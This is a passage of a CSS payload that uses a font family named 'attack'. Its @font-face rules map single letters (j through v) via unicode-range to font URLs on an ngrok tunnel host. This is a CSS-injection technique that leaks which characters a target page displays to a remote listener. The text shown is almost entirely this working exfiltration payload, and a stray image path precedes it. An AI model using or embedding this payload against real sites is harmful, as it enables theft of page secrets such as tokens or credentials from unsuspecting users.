 	unicode-range:U+006A;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:k');
	unicode-range:U+006B;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:l');
	unicode-range:U+006C;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:m');
	unicode-range:U+006D;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:n');
	unicode-range:U+006E;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:o');
	unicode-range:U+006F;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:p');
	unicode-range:U+0070;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:q');
	unicode-range:U+0071;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:r');
	unicode-range:U+0072;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:s');
	unicode-range:U+0073;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:t');
	unicode-range:U+0074;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:u');
	unicode-range:U+0075;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:v');
	unicode-range:U+0076;
}
@font-face{
	font-family:attack;
